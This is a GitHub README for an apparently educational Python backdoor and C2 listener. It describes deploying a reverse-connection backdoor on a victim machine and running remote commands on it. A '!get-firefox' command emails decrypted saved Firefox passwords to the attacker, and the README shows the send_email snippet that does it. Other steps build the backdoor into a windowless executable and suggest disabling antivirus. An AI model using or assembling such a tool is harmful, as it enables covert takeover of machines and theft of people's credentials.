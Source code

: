 
# 🔍 Backdoor & C2 Listener (Educational Project)

This project combines **two Python scripts** to demonstrate, for educational purposes, how a **Backdoor** and a basic **Command & Control (C2)** system work:

- `backdoor.py`: runs on the victim machine and establishes a connection to the attacker.  
- `c2_listener.py`: runs on the attacker machine and allows remote command execution.

The purpose of this project is to **teach and learn offensive and defensive security concepts**, helping security analysts and students understand how these techniques operate and develop **countermeasures**.

> ⚠️ Certain functionalities of `backdoor.py` are **focused on Windows systems**. It is recommended to run it on Windows for full compatibility.  

---

## 🖼️ Architecture

```text
+----------------+           +----------------+
| Victim Machine | --------> | Attacker C2    |
| (backdoor.py)  |           |(c2_listener.py)|
+----------------+           +----------------+
        |                           ^
        | Remote Command / Data     |
        |-------------------------->|
        |                           |
```



---

## 🚀 Features

- 📡 Reverse connection between client (victim) and server (attacker)  
- 💻 Remote command execution  
- 📂 Use the SMTP protocol to send information from accounts saved in Firefox  
- 🔐 Simple communication (no encryption, for educational purposes)  
- 🛠️ Easy-to-understand Python code, easy to modify  
- 💡 Special command `!get-firefox` in the C2 sends an email with saved Firefox account information (requires configuration, see below)  

---

## 📦 Installation

```bash
# Clone the repository
git clone https://github.com/RandyNin/c2-backdoor.git
cd c2-backdoor

# Install dependencies
pip install -r requirements.txt
pip install requests  # required for backdoor functionality
````

---

## ⚡ Usage

> **Note:** The scripts do not use command-line parameters.

### 1️⃣ On the attacker machine (listener):

```bash
python c2_listener.py
```

### 2️⃣ On the victim machine (backdoor):

```bash
python backdoor.py
```

> **Optional (Recommended for testing in controlled environments):**  
> Compile `backdoor.py` with PyInstaller to avoid Python dependency and required libraries:
> 
> ```bash
> pyinstaller --onefile --noconsole backdoor.py
> ```
> 
> This will create a standalone executable.

> **Educational Warning:** To ensure the backdoor runs on the victim machine, antivirus protection may need to be disabled. Use only in **controlled and authorized environments**.

---

## 💡 Firefox Account Export Function

The `!get-firefox` command in the C2 listener will send saved Firefox account information via email. To use this feature:

1. Modify the following lines in `c2_listener.py` with your own email configuration:
    

```python
self.send_email(
    "Decrypted Firefox Passwords",
    passwords,
    '<Your email Address>',
    ["<Destination addresses>"],
    "<Email app password>"
)
```

2. Create an **App Password** for your email (Gmail, Outlook, etc.) and use it in the `"<Email app password>"` field.
    
3. Ensure `requests` library is installed before compiling or running the `backdoor.py`.
    

---

## 📚 Requirements

- Python **3.10+**
    
- `requests` library (for Windows Firefox functionality)
  
-  `termcolor` library (for terminal color display)
    

---

## ⚠️ Disclaimer

This software is provided **for educational purposes only**.  
It should only be used in **controlled and authorized environments**.  
The author is **not responsible for any misuse** of this tool.

